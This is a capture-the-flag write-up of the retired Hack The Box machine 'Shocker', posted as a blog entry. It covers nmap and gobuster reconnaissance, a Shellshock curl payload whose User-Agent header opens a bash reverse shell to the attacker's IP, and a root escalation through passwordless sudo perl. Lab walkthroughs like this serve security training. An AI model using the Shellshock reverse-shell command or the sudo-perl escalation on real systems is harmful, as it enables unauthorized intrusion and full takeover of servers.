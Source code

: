 ```yaml
---
layout: post
title: "HTB-Shocker"
date: 2020-02-16 22:02:00 +0000
categories: HTB-Walkthrough
---
```


![shocker](http://localhost:4000/sh1n0bi-dojo/assets/img/shocker.png)

This is another box from the HTB 'retired' list, it's also very much like one of the boxes found in the PWK labs on the way to the OSCP qualification.

Jumping in with Nmap then...

`nmap -sV -Pn 10.10.10.56 |tee -a shock.txt`

{% highlight ruby %}
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

Unusual to find ssh on a port other than 22, a bit of security through obscurity perhaps, it may mean that it is somehow otherwise vulnerable.
Lets check out this possibility with nmap...

{% highlight ruby %}
root@kali:~/HTB/prep/shocker# nmap -sSV 10.10.10.56 --script=vuln |tee -a shock.txt 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-09 18:40 GMT
Nmap scan report for 10.10.10.56
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

Nothing immediately apparent, and nikto on the webport 80 gives nothing.

gobuster finds /cgi-bin with a common.txt scan...we'll scan again looking for scripts...

{% highlight ruby %}
root@kali:~/HTB/retired# gobuster dir -u http://10.10.10.56/cgi-bin/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -x .sh,.txt,.php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /root/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,txt,php
[+] Timeout:        10s
===============================================================
2020/02/16 18:16:23 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.sh (Status: 403)
/.hta.txt (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.sh (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.sh (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/user.sh (Status: 200)
===============================================================
2020/02/16 18:19:33 Finished
===============================================================
{% endhighlight %}

/user.sh needs to be looked at...

{% highlight ruby %}
Content-Type: text/plain

Just an uptime test script

 18:24:12 up 54 min,  0 users,  load average: 0.01, 0.00, 0.00
{% endhighlight %}

Well, nothing usefull in itself, but what it does mean (cgi-bin accessible), is that this installation of Apache may well be vulnerable to a Shellshock exploit.

{% highlight ruby %}
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.34/6969 0>&1' http://10.10.10.56/cgi-bin/user.sh
{% endhighlight %}

This attempt works straight off the bat...Google Shellshock if you need to find out what it is...Its an important vulnerability to know about.
[Wiki on shellshock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29)

###############################################################

So we got user shell on the target...

{% highlight ruby %}
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
{% endhighlight %}

sudo -l is always one of the first commands I try when I get an user shell, for this sort of reason.
Getting root now is very simple.

{% highlight ruby %}
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/home/shelly
ls
user.txt
cat user.txt
2exxxxxxxxxxxxxxxxxxxxxxxxxxxx33
cat /root/root.txt
5xxxxxxxxxxxxxxxxxxxxxxxxxxxxx67
{% endhighlight %}


###########################################

Simple when you know.
